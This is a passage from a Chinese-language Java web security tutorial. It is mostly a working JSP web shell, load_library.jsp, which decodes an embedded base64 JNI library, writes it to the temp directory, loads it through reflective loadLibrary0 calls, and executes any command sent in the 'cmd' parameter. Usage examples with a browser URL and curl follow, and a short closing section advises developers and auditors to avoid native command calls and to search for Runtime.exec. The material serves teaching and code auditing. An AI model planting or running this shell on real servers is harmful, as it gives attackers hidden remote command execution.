ZXRzAJAAckgSQF9tZW1zZXQAkAByUBJAX3BjbG9zZQCQAHJYEkBfcG9wZW4AkAAAAAAAAAAAAAFfAAUAAkphdmFfY29tX2FuYmFpX3NlY19jbWRfQ29tbWFuZEV4ZWN1dGlvbl9leGVjAENfWk43Sk5JRW52XzEASAMAwBEAAAI3R2V0U3RyaW5nVVRGQ2hhcnNFUDhfanN0cmluZ1BoAH8yTmV3U3RyaW5nVVRGRVBLYwCEAQMEsBUAAwTQFgAAAAAAAAAAwBHwA1AgMEAgEDAgUEAwIBAgEDAQUEAgMCAQIAAAAACrAQAADgEAAAALAAAAAAAA8AEAAA4BAAAgCwAAAAAAADcCAAAOAQAAkAsAAAAAAACBAgAAHgGAALALAAAAAAAAmQIAAA4BAADACwAAAAAAAN4CAAAOAQAA8AsAAAAAAABFAwAADgEAABAMAAAAAAAAjwMAAA4BAABgDAAAAAAAAPYDAAAOAQAAoAwAAAAAAABnBAAADgEAANAMAAAAAAAAqQQAAA4BAADwDAAAAAAAAMUEAAAOAQAAAA0AAAAAAAAwBQAADgEAACANAAAAAAAApQUAAA4BAAAwDQAAAAAAAO4FAAAOAQAAYA0AAAAAAAAXBgAADgEAAHANAAAAAAAAagYAAA4BAADADQAAAAAAALgGAAAOAQAAAA4AAAAAAAAQBwAADgEAACAOAAAAAAAAaQcAAA4BAABQDgAAAAAAANUHAAAOAQAAcA4AAAAAAABLCAAADgEAAIAOAAAAAAAAfAgAAA4BAACgDgAAAAAAAJ4IAAAOBAAAbA8AAAAAAACwCAAADgkAAGAgAAAAAAAAAgAAAA8BAADACAAAAAAAADAAAAAPAYAAUAsAAAAAAABPAAAADwGAALAKAAAAAAAAfAAAAAEAAAIAAAAAAAAAAIwAAAABAAABAAAAAAAAAADYAAAAAQAAAQAAAAAAAAAAHQEAAAEAAAEAAAAAAAAAAC4BAAABAAABAAAAAAAAAABBAQAAAQAAAQAAAAAAAAAAVwEAAAEAAAIAAAAAAAAAAGkBAAABAAACAAAAAAAAAAB8AQAAAQAAAgAAAAAAAAAAgwEAAAEAAAIAAAAAAAAAAIsBAAABAAACAAAAAAAAAACTAQAAAQAAAgAAAAAAAAAAmgEAAAEAAAIAAAAAAAAAABwAAAAaAAAAGwAAAB0AAAAeAAAAHwAAACAAAAAiAAAAJAAAACUAAAAmAAAAJwAAACEAAAAjAAAAKAAAABwAAAAaAAAAGwAAAB0AAAAeAAAAHwAAACAAAAAiAAAAJAAAACUAAAAmAAAAJwAAACAAX0phdmFfY29tX2FuYmFpX3NlY19jbWRfQ29tbWFuZEV4ZWN1dGlvbl9leGVjAF9fWk43Sk5JRW52XzEyTmV3U3RyaW5nVVRGRVBLYwBfX1pON0pOSUVudl8xN0dldFN0cmluZ1VURkNoYXJzRVA4X2pzdHJpbmdQaABfX1Vud2luZF9SZXN1bWUAX19aTlN0M19fMTEyYmFzaWNfc3RyaW5nSWNOU18xMWNoYXJfdHJhaXRzSWNFRU5TXzlhbGxvY2F0b3JJY0VFRTZhcHBlbmRFUEtjAF9fWk5TdDNfXzExMmJhc2ljX3N0cmluZ0ljTlNfMTFjaGFyX3RyYWl0c0ljRUVOU185YWxsb2NhdG9ySWNFRUVEMUV2AF9fWlN0OXRlcm1pbmF0ZXYAX19fY3hhX2JlZ2luX2NhdGNoAF9fX2d4eF9wZXJzb25hbGl0eV92MABfX19zdGFja19jaGtfZmFpbABfX19zdGFja19jaGtfZ3VhcmQAX2ZnZXRzAF9tZW1zZXQAX3BjbG9zZQBfcG9wZW4AZHlsZF9zdHViX2JpbmRlcgBfX1pOU3QzX18xMTJiYXNpY19zdHJpbmdJY05TXzExY2hhcl90cmFpdHNJY0VFTlNfOWFsbG9jYXRvckljRUVFQzFFdgBfX1pOU3QzX18xMTJiYXNpY19zdHJpbmdJY05TXzExY2hhcl90cmFpdHNJY0VFTlNfOWFsbG9jYXRvckljRUVFcExFUEtjAF9fWk5LU3QzX18xMTJiYXNpY19zdHJpbmdJY05TXzExY2hhcl90cmFpdHNJY0VFTlNfOWFsbG9jYXRvckljRUVFNWNfc3RyRXYAX19fY2xhbmdfY2FsbF90ZXJtaW5hdGUAX19aTlN0M19fMTEyYmFzaWNfc3RyaW5nSWNOU18xMWNoYXJfdHJhaXRzSWNFRU5TXzlhbGxvY2F0b3JJY0VFRUMyRXYAX19aTlN0M19fMTE3X19jb21wcmVzc2VkX3BhaXJJTlNfMTJiYXNpY19zdHJpbmdJY05TXzExY2hhcl90cmFpdHNJY0VFTlNfOWFsbG9jYXRvckljRUVFNV9fcmVwRVM1X0VDMUV2AF9fWk5TdDNfXzExMmJhc2ljX3N0cmluZ0ljTlNfMTFjaGFyX3RyYWl0c0ljRUVOU185YWxsb2NhdG9ySWNFRUU2X196ZXJvRXYAX19aTlN0M19fMTE3X19jb21wcmVzc2VkX3BhaXJJTlNfMTJiYXNpY19zdHJpbmdJY05TXzExY2hhcl90cmFpdHNJY0VFTlNfOWFsbG9jYXRvckljRUVFNV9fcmVwRVM1X0VDMkV2AF9fWk5TdDNfXzEyMl9fY29tcHJlc3NlZF9wYWlyX2VsZW1JTlNfMTJiYXNpY19zdHJpbmdJY05TXzExY2hhcl90cmFpdHNJY0VFTlNfOWFsbG9jYXRvckljRUVFNV9fcmVwRUxpMEVMYjBFRUMyRXYAX19aTlN0M19fMTIyX19jb21wcmVzc2VkX3BhaXJfZWxlbUlOU185YWxsb2NhdG9ySWNFRUxpMUVMYjFFRUMyRXYAX19aTlN0M19fMTlhbGxvY2F0b3JJY0VDMkV2AF9fWk5TdDNfXzExN19fY29tcHJlc3NlZF9wYWlySU5TXzEyYmFzaWNfc3RyaW5nSWNOU18xMWNoYXJfdHJhaXRzSWNFRU5TXzlhbGxvY2F0b3JJY0VFRTVfX3JlcEVTNV9FNWZpcnN0RXYAX19aTlN0M19fMTIyX19jb21wcmVzc2VkX3BhaXJfZWxlbUlOU18xMmJhc2ljX3N0cmluZ0ljTlNfMTFjaGFyX3RyYWl0c0ljRUVOU185YWxsb2NhdG9ySWNFRUU1X19yZXBFTGkwRUxiMEVFNV9fZ2V0RXYAX19aTktTdDNfXzExMmJhc2ljX3N0cmluZ0ljTlNfMTFjaGFyX3RyYWl0c0ljRUVOU185YWxsb2NhdG9ySWNFRUU0ZGF0YUV2AF9fWk5TdDNfXzFMMTZfX3RvX3Jhd19wb2ludGVySUtjRUVQVF9TM18AX19aTktTdDNfXzExMmJhc2ljX3N0cmluZ0ljTlNfMTFjaGFyX3RyYWl0c0ljRUVOU185YWxsb2NhdG9ySWNFRUUxM19fZ2V0X3BvaW50ZXJFdgBfX1pOS1N0M19fMTEyYmFzaWNfc3RyaW5nSWNOU18xMWNoYXJfdHJhaXRzSWNFRU5TXzlhbGxvY2F0b3JJY0VFRTlfX2lzX2xvbmdFdgBfX1pOS1N0M19fMTEyYmFzaWNfc3RyaW5nSWNOU18xMWNoYXJfdHJhaXRzSWNFRU5TXzlhbGxvY2F0b3JJY0VFRTE4X19nZXRfbG9uZ19wb2ludGVyRXYAX19aTktTdDNfXzExMmJhc2ljX3N0cmluZ0ljTlNfMTFjaGFyX3RyYWl0c0ljRUVOU185YWxsb2NhdG9ySWNFRUUxOV9fZ2V0X3Nob3J0X3BvaW50ZXJFdgBfX1pOS1N0M19fMTE3X19jb21wcmVzc2VkX3BhaXJJTlNfMTJiYXNpY19zdHJpbmdJY05TXzExY2hhcl90cmFpdHNJY0VFTlNfOWFsbG9jYXRvckljRUVFNV9fcmVwRVM1X0U1Zmlyc3RFdgBfX1pOS1N0M19fMTIyX19jb21wcmVzc2VkX3BhaXJfZWxlbUlOU18xMmJhc2ljX3N0cmluZ0ljTlNfMTFjaGFyX3RyYWl0c0ljRUVOU185YWxsb2NhdG9ySWNFRUU1X19yZXBFTGkwRUxiMEVFNV9fZ2V0RXYAX19aTlN0M19fMTE0cG9pbnRlcl90cmFpdHNJUEtjRTEwcG9pbnRlcl90b0VSUzFfAF9fWk5TdDNfXzFMOWFkZHJlc3NvZklLY0VFUFRfUlMyXwBHQ0NfZXhjZXB0X3RhYmxlMABfX2R5bGRfcHJpdmF0ZQAA";

    /**
     * 获取JNI链接库目录
     * @return 返回缓存JNI的临时目录
     */
    File getTempJNILibFile() {
        File jniDir = new File(System.getProperty("java.io.tmpdir"), "jni-lib");

        if (!jniDir.exists()) {
            jniDir.mkdir();
        }

        return new File(jniDir, "libcmd.lib");
    }

    /**
     * 高版本JDKsun.misc.BASE64Decoder已经被移除，低版本JDK又没有java.util.Base64对象，
     * 所以还不如直接反射自动找这两个类，哪个存在就用那个decode。
     * @param str
     * @return
     */
    byte[] base64Decode(String str) {
        try {
            try {
                Class clazz = Class.forName("sun.misc.BASE64Decoder");
                return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
            } catch (ClassNotFoundException e) {
                Class  clazz   = Class.forName("java.util.Base64");
                Object decoder = clazz.getMethod("getDecoder").invoke(null);
                return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
            }
        } catch (Exception e) {
            return null;
        }
    }

    /**
     * 写JNI链接库文件
     * @param base64 JNI动态库Base64
     * @return 返回是否写入成功
     */
    void writeJNILibFile(String base64) throws IOException {
        if (base64 != null) {
            File jniFile = getTempJNILibFile();

            if (!jniFile.exists()) {
                byte[] bytes = base64Decode(base64);

                if (bytes != null) {
                    FileOutputStream fos = new FileOutputStream(jniFile);
                    fos.write(bytes);
                    fos.flush();
                    fos.close();
                }
            }
        }
    }
%>
<%
    // 需要执行的命令
    String cmd = request.getParameter("cmd");

    // JNI链接库字节码,如果不传会使用"COMMAND_JNI_FILE_BYTES"值
    String jniBytes = request.getParameter("jni");

    // JNI路径
    File jniFile = getTempJNILibFile();
    ClassLoader loader = (ClassLoader) application.getAttribute("__LOADER__");

    if (loader == null) {
        loader = new ClassLoader(this.getClass().getClassLoader()) {
            @Override
            protected Class<?> findClass(String name) throws ClassNotFoundException {
                try {
                    return super.findClass(name);
                } catch (ClassNotFoundException e) {
                    return defineClass(COMMAND_CLASS_NAME, COMMAND_CLASS_BYTES, 0, COMMAND_CLASS_BYTES.length);
                }
            }
        };

        writeJNILibFile(jniBytes != null ? jniBytes : COMMAND_JNI_FILE_BYTES);// 写JNI文件到临时文件目录

        application.setAttribute("__LOADER__", loader);
    }

    try {
        // load命令执行类
        Class  commandClass = loader.loadClass("com.anbai.sec.cmd.CommandExecution");
        Object loadLib      = application.getAttribute("__LOAD_LIB__");

        if (loadLib == null || !((Boolean) loadLib)) {
            Method loadLibrary0Method = ClassLoader.class.getDeclaredMethod("loadLibrary0", Class.class, File.class);
            loadLibrary0Method.setAccessible(true);
            loadLibrary0Method.invoke(loader, commandClass, jniFile);
            application.setAttribute("__LOAD_LIB__", true);
        }

        String content = (String) commandClass.getMethod("exec", String.class).invoke(null, cmd);
        out.println("<pre>");
        out.println(content);
        out.println("</pre>");
    } catch (Exception e) {
        out.println(e.toString());
        throw e;
    }

%>
```

`load_library.jsp`默认提供了一个`MacOSX`的`JNI`库字符串Demo其他系统需要自行编译:`com_anbai_sec_cmd_CommandExecution.cpp`,编译方式参考后面的`JNI`章节。`load_library.jsp`接收两个参数:`cmd`和`jni`，参数描述：

1. `cmd`需要执行的本地命令

2. `jni` 动态链接库文件Base64+URL编码后的字符串(`urlEncode(base64Encode(jniFile))`),`jni`参数默认可以不传但是需要手动修改jsp中的`COMMAND_JNI_FILE_BYTES`变量，`jni`参数只需要传一次，第二次请求不需要带上。

浏览器请求:

http://localhost:8080/load_library.jsp?cmd=ls

命令行(POST传jni参数方式)：

```jsp
curl http://localhost:8080/load_library.jsp?cmd=ifconfig -d "jni=JNI文件编码后的字符串"
```

浏览器访问`load_library.jsp`执行命令测试：



这个JNI示例Demo结合了`Java反射`、`ClassLoader机制`、`JNI`三个知识点，相对新手来说会有较大难度，这里不做详细讲解，在后面的对应的章节将做出详细解读。

## Java本地命令执行总结

Java本地命令执行是一个非常高危的漏洞，一旦被攻击者利用后果不堪设想。这个漏洞原理一样是非常简单且容易被发现。开发阶段我们应该尽可能的避免调用本地命令接口，如果不得不调用那么请仔细检查命令执行参数，严格检查(防止命令注入)或严禁用户直接传入命令！代码审计阶段我们应该多搜索下`Runtime.exec/ProcessBuilder/ProcessImpl`等关键词，这样可以快速找出命令执行点。